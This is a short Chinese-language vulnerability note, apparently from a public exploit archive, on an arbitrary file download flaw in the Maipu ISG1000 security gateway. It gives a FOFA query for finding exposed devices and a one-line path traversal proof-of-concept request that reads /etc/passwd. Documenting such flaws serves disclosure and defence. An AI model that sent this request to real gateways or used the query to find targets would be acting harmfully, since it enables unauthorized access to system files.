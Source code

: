 ```yaml
---
title: 迈普 ISG1000安全网关 任意文件下载漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 迈普
---
```


# 迈普 ISG1000安全网关 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

> [!NOTE]
>
> 迈普 ISG1000安全网关

## FOFA

> [!NOTE]
>
> title="迈普通信技术股份有限公司"

## 漏洞复现

登录页面如下

![image-20210604151806596](/img/20210924020308351051.png)

请求的 POC 为

```
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![image-20210604152228481](/img/20210924020308760609.png)